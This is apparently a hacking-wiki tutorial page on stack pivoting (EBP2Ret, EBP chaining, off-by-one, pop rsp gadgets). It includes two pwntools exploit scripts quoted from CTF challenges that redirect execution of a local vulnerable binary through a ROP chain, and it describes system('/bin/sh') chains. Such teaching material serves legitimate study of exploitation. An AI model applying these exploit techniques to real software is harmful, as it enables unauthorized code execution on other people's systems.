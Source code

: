 # Stack Pivoting - EBP2Ret - EBP chaining

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## Basic Information

This technique exploits the ability to manipulate the **Base Pointer (EBP)** to chain the execution of multiple functions through careful use of the EBP register and the `leave; ret` instruction sequence.

As a reminder, **`leave`** basically means:

```
mov               esp, ebp
pop               ebp
ret
```

And as the **EBP is in the stack** before the EIP it's possible to control it controlling the stack.

### EBP2Ret

This technique is particularly useful when you can **alter the EBP register but have no direct way to change the EIP register**. It leverages the behaviour of functions when they finish executing.

If, during `fvuln`'s execution, you manage to inject a **fake EBP** in the stack that points to an area in memory where your shellcode's address is located (plus 4 bytes to account for the `pop` operation), you can indirectly control the EIP. As `fvuln` returns, the ESP is set to this crafted location, and the subsequent `pop` operation decreases ESP by 4, **effectively making it point to an address store by the attacker in there.**\
Note how you **need to know 2 addresses**: The one where ESP is going to go, where you will need to write the address that is pointed by ESP.

#### Exploit Construction

First you need to know an **address where you can write arbitrary data / addresses**. The ESP will point here and **run the first `ret`**.

Then, you need to know the address used by `ret` that will **execute arbitrary code**. You could use:

* A valid [**ONE\_GADGET**](https://github.com/david942j/one\_gadget) address.
* The address of **`system()`** followed by **4 junk bytes** and the address of `"/bin/sh"` (x86 bits).
* The address of a **`jump esp;`** gadget ([**ret2esp**](ret2esp-ret2reg.md)) followed by the **shellocde** to execute.
* Some [**ROP**](rop-return-oriented-programing.md) chain

Remember than before any of these addresses in the controlled part of the memory, there must be **`4` bytes** because of the **`pop`** part of the `leave` instruction. It would be possible to abuse these 4B to set a **second fake EBP** and continue controlling the execution.

#### Off-By-One Exploit

There's a specific variant of this technique known as an "Off-By-One Exploit". It's used when you can **only modify the least significant byte of the EBP**. In such a case, the memory location storing the address to jumo to with the **`ret`** must share the first three bytes with the EBP, allowing for a similar manipulation with more constrained conditions.

### **EBP Chaining**

Therefore, putting a controlled address in the `EBP` entry of the stack and an address to `leave; ret` in `EIP`, it's possible to **move the `ESP` to the controlled `EBP` address from the stack**.

Now, the **`ESP`** is controlled pointing to a desired address and the next instruction to execute is a `RET`. To abuse this, it's possible to place in the controlled ESP place this:

* **`&(next fake EBP)`** -> Load the new EBP because of `pop ebp` from the `leave` instruction
* **`system()`** -> Called by `ret`
* **`&(leave;ret)`** -> Called after system ends, it will move ESP to the fake EBP and start agin
* **`&("/bin/sh")`**-> Param fro `system`

Basically this way it's possible to chain several fake EBPs to control the flow of the program.

This is like a [ret2lib](ret2lib/), but more complex with no apparent benefit but could be interesting in some edge-cases.

Moreover, here you have an [**example of a challenge**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave) that uses this technique with a **stack leak** to call a winning function. This is the final payload from the page:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
    0x0,               # rbp (could be the address of anoter fake RBP)
    POP_RDI,
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,
    elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
    buffer,         # Load leak address in RBP
    LEAVE_RET       # Use leave ro move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```

## EBP is useless

As [**explained in this post**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1), if a binary is compiled with some optimizations, the **EBP never gets to control ESP**, therefore, any exploit working by controlling EBP sill basically fail because it doesn't have ay real effect.\
This is because the **prologue and epilogue changes** if the binary is optimized.

* **Not optimized:**

```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```

* **Optimized:**

```bash
push   %ebx         # save ebx
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore ebx
ret                 # return
```

## Other ways to control RSP

### **`pop rsp`** gadget

[**In this page**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp) you can find an example using this technique. For this challenge it was needed to call a function with 2 specific arguments, and there was a **`pop rsp` gadget** and there is a **leak from the stack**:

```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
payload = flat(
    0,                 # r13
    0,                 # r14
    0,                 # r15
    POP_RDI,
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,               # r15
    elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and 
# continues the ROP chain in the prepared payload
payload += flat(
    POP_CHAIN,
    buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```

### xchg \<reg>, rsp gadget

```
pop <reg>                <=== return pointer
<reg value>
xchg <reg>, rsp
```

## References

* [https://bananamafia.dev/post/binary-rop-stackpivot/](https://bananamafia.dev/post/binary-rop-stackpivot/)
* [https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
